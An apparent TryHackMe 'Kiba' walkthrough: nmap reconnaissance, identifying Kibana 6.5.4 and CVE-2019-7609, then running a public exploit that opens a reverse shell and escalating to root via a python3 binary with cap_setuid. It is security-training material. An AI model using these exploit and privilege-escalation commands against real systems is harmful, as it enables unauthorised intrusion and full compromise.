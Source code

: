 ```yaml
---
layout: post
title: Walkthrough - Kiba
published: true
---
```


RCE, Elastic, Python, Linux Capabilities, Kibana. Identify the critical security flaw in the data visualization dashboard, that allows execute remote code execution.

[https://tryhackme.com/room/kiba](https://tryhackme.com/room/kiba)

* * * 

## What is the vulnerability that is specific to programming languages with prototype-based inheritance?

- [Prototype Pollution](https://research.securitum.com/prototype-pollution-rce-kibana-cve-2019-7609/)

* * * 

## What is the version of visualization dashboard installed in the server?

- ``nmap -p- -T4 10.10.71.45 -vvv``

```
PORT     STATE SERVICE     REASON
22/tcp   open  ssh         syn-ack
80/tcp   open  http        syn-ack
5044/tcp open  lxi-evntsvc syn-ack
5601/tcp open  esmagent    syn-ack
```

- ``sudo nmap -sV -sT -sC -p22,80,5044,5601 10.10.71.45``

```
PORT     STATE SERVICE      VERSION
22/tcp   open  ssh          OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 9d:f8:d1:57:13:24:81:b6:18:5d:04:8e:d2:38:4f:90 (RSA)
|   256 e1:e6:7a:a1:a1:1c:be:03:d2:4e:27:1b:0d:0a:ec:b1 (ECDSA)
|_  256 2a:ba:e5:c5:fb:51:38:17:45:e7:b1:54:ca:a1:a3:fc (ED25519)
80/tcp   open  http         Apache httpd 2.4.18 ((Ubuntu))
|_http-title: Site doesn't have a title (text/html).
|_http-server-header: Apache/2.4.18 (Ubuntu)
5044/tcp open  lxi-evntsvc?
5601/tcp open  esmagent?
| fingerprint-strings: 
|   DNSStatusRequestTCP, DNSVersionBindReqTCP, Help, Kerberos, LDAPBindReq, LDAPSearchReq, LPDString, RPCCheck, RTSPRequest, SIPOptions, SMBProgNeg, SSLSessionReq, TLSSessionReq, TerminalServerCookie, X11Probe: 
|     HTTP/1.1 400 Bad Request
|   FourOhFourRequest: 
|     HTTP/1.1 404 Not Found
|     kbn-name: kibana
|     kbn-xpack-sig: c4d007a8c4d04923283ef48ab54e3e6c
|     content-type: application/json; charset=utf-8
|     cache-control: no-cache
|     content-length: 60
|     connection: close
|     Date: Wed, 03 Aug 2022 14:29:32 GMT
|     {"statusCode":404,"error":"Not Found","message":"Not Found"}
|   GetRequest: 
|     HTTP/1.1 302 Found
|     location: /app/kibana
|     kbn-name: kibana
|     kbn-xpack-sig: c4d007a8c4d04923283ef48ab54e3e6c
|     cache-control: no-cache
|     content-length: 0
|     connection: close
|     Date: Wed, 03 Aug 2022 14:29:27 GMT
|   HTTPOptions: 
|     HTTP/1.1 404 Not Found
|     kbn-name: kibana
|     kbn-xpack-sig: c4d007a8c4d04923283ef48ab54e3e6c
|     content-type: application/json; charset=utf-8
|     cache-control: no-cache
|     content-length: 38
|     connection: close
|     Date: Wed, 03 Aug 2022 14:29:28 GMT
|_    {"statusCode":404,"error":"Not Found"}
```

- kibana app located at ``http://10.10.71.45:5601/app/kibana``
- checking and Ctrl+F "Version" we find 6.5.4 in the source code.

* * * 

## What is the CVE number for this vulnerability? This will be in the format: CVE-0000-0000

- Googling the Kibana version lead me to it and a script for execution https://github.com/LandGrey/CVE-2019-7609``

* * * 

## Compromise the machine and locate user.txt

- Found a script that executes payload ``python2 CVE-2019-7609-kibana-rce.py -u http://10.10.157.84:5601/ -host 10.2.127.225 -port 6666 --shell``

* * * 

## Capabilities is a concept that provides a security system that allows "divide" root privileges into different values - How would you recursively list all of these capabilities?

```
kiba@ubuntu:/home/kiba/.hackmeplease$ getcap -r / 2>/dev/null
/home/kiba/.hackmeplease/python3 = cap_setuid+ep
/usr/bin/mtr = cap_net_raw+ep
/usr/bin/traceroute6.iputils = cap_net_raw+ep
/usr/bin/systemd-detect-virt = cap_dac_override,cap_sys_ptrace+ep
```

* * * 

## Escalate privileges and obtain root.txt

- this python3 binary has ``CAP_SETUID`` set ``/home/kiba/.hackmeplease/python3 = cap_setuid+ep``
- escalate privilege to root ``./python3 -c 'import os; os.setuid(0); os.system("/bin/sh")'``

* * * 

